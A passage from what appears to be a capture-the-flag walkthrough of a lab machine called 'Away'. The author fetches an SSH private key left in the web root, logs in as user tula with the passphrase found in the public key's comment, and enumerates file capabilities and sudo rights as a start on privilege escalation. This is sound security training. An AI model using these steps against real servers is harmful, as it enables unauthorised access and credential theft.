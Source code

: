From the output of the command above, we see that the default name for the private key is id_ed25519 and that of the public key is id_ed25519.pub. Let's use to name to check if the administrator has forgotten to delete these files in the we's root directory.
```bash
┌──(pentester㉿kali)-[~/Away/Misc File]
└─$curl http://10.0.2.25/id_ed25519.pub         

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIpBfnwSG2XZXFTsYR6Gg1apA+kuSgdtTkrrhhgskSJf  My passphrase is: <REDACTED>

┌──(pentester㉿kali)-[~/Away/Misc File]
└─$curl http://10.0.2.25/id_ed25519

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABA+GY+qad
MDkU/yMHam3bmdAAAAEAAAAAEAAAAzAAAAC3NzaC1lZDI1NTE5AAAAIIpBfnwSG2XZXFTs
YR6Gg1apA+kuSgdtTkrrhhgskSJfAAAAsAEbt6fRUQfkYGDCdAa/zOBpiUuAV1kGiDs3F1
gD8y+UxeRdz6gQxbHAY53rE25YN+t1bml5GuNMx99CLApAQCMgeePifFV+t2gRnaMEGRnf
4u1RfM20X6rRYdKeQKHwrE5b/m4xgKC5FvKfiGESqirQ2XPWZnOfbcNc+czsut8t8v+zfl
kYo1mO1M4Va9i+OipgnoOJkdNB+mdx2f7YE0lWoHdt/7KVG5eDB90WrJZF
-----END OPENSSH PRIVATE KEY-----
```

We see that both the public and private keys are still present in the web's root directory and that the public key contains a passphrase. Let's download the private key and attempt to connect with the username we saw above on the index page.
```bash
┌──(pentester㉿kali)-[~/Away/Misc File]
└─$ chmod 600 id_ed25519
┌──(pentester㉿kali)-[~/Away/Misc File]
└─$ ssh tula@10.0.2.25 -i id_ed25519     

Enter passphrase for key 'id_ed25519': 

Linux away 5.10.0-15-amd64 #1 SMP Debian 5.10.120-1 (2022-06-09) x86_64

<SNIP>
Last login: Fri Jun 17 10:28:31 2022 from 192.168.1.51

tula@away:~$ ls
user.txt
```
We successfully connected as the user Tula and even though the private key was protected by a passphrase this passphrase was the passphrase present in the public key we saw above.

## Post Exploitation

Now that we have a foothold on the target we can start our enumeration steps. Simple methods can be to look for all files having special capabilities and also for the sudo rights of our current user.
```bash
tula@away:~$ /usr/sbin/getcap / -r 2>/dev/null
/usr/bin/more cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep

tula@away:~$ ls -l /usr/bin/more 
-rwxrwx--- 1 root lula 59632 ene 20  2022 /usr/bin/more

tula@away:~$ sudo -l
Matching Defaults entries for tula on away:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tula may run the following commands on away:
    (lula) NOPASSWD: /usr/bin/webhook
```